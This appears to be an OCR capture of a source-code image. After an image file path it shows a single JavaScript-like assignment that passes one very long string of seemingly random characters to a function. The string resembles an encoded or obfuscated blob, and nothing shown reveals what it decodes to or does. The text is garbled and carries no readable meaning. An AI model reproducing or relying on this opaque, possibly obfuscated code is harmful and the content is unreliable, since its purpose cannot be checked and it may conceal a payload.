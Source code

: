 a=f(e,"K_RNzbH0m9C8c+6<_b6m+c+Vc086CcCQ9z<_6C6Nc9cCcOzNN+Rm_c_;z0HCb_z_zmR+ym_9tH9898mP0zHm9<8cC+9890z!Hm00_czNz9zzN_RNRmC8C99(mz0mc88<C6c.mNmz0_95b90HHmbCNN+N<88mCcCG6m<r6b6Nmz868bCc99zm9N0_00_mbcbRzNNcR__N_m<+<aC!68+_+v8mHzmb98m<mRb8H_bN2zR6<<6w_HR_8c+H69+c+_+R8b8zb<H9b+b_zb=N<+6m+c+=_R_+RN<z#N6<6N+cc9b8bHz{NzRmmm0<Hbbcb<bzzHN_RC_0C0CNmcma0z8Hc_c0mmCC989{0m000Nb660+mccc>8zC8Cb9xmz0mcM820z9mCm9_9+0+06pN<C6m+c+F_R_+RN<z<b6C0<0+Hzbmzcm0mH0_HCb0bN_mzzNQ<z_b<+?mC06Omcmx0z+j+ocz8zC8HHz<zN0Cb+H0_RN<NbNz_c_+<6ob<0+++6cNcN8H8a9b9RmcNCHNHNbbM8zmic_+_c_z<080c0+_+Cc0099b0+bbHm09HHHCz+bRz+<0R9__?+>H88<N6N++c68NC9HH9m9b0bh8_b<D6z+m_9R<RN_H6<<b60+08<+zcH8_CC9090Hu0bHzbmz+zC__NmRc_6CN9mmm0c0S8_898bC6N0N0_c_&1zz8b_zcN9R8NP+L6<n_<m6c9zC9cm8cz0N+RcR>_z0cb+bRbQN+c<c08zCm9c+m<m6c+cC0898cN<NbRz_mJc0tbbb_z6zNc0cRCcC&9z+H6_60808+C<8z9+90mC_N46<m6c6SRmN0RN_0_4<++b66+C+0b<b9zzNmRcH6090<N6HbbmzcN8R680Cc9c9(mz+<c+c+89z8zzNTRz_mb<HbHRbczbN6R9RzC<C09zmm0ccO+O89cbCbCH98_<_8pz<m6cR0N9Nc<<_mP+sz<5<R+9+Hb<bzzzNmRcH60b0bH_<N60+mccc%qz_zP69N9_0mHcHyC0C+Cm9bm0mcRcbXHQz9bbNbNH88cACe9zmmc0898;CzHcm_mS0zNcH8z<z_R<R8<z<96c6%c9<bm<mC0zHmbc90C9Cc0<mbmH06HbbNz9+8+Cc?8zCm6<<b<g++c<+z0z9mCm9_9+0+06R_<0<m+c+FczMC__UHVH6+6<+mmz9c86C<Czmcm8m00R<c6c6u+zc<8c8UCz989zmf0zHmCc8cCb8_9_9RHmbm<<<H6z+mcc,N<C_C<+<+69080NHpbzzmmc9cmb9_0_0RH0686c+Icz8m<z_bt_696C+<c+8c96C<CN9cHc0_0HHc6<69+zcm8c<NDc<9<66_+0+cc_cRz0NcRcRg_zH<b+b+z9+8+0c{8zCm6m<<60+9+m8^ciC98b9b9H_mnc57<z<H+c+=czcC8_CJ9zmmmR02HzbmHcb9NzRm_c_>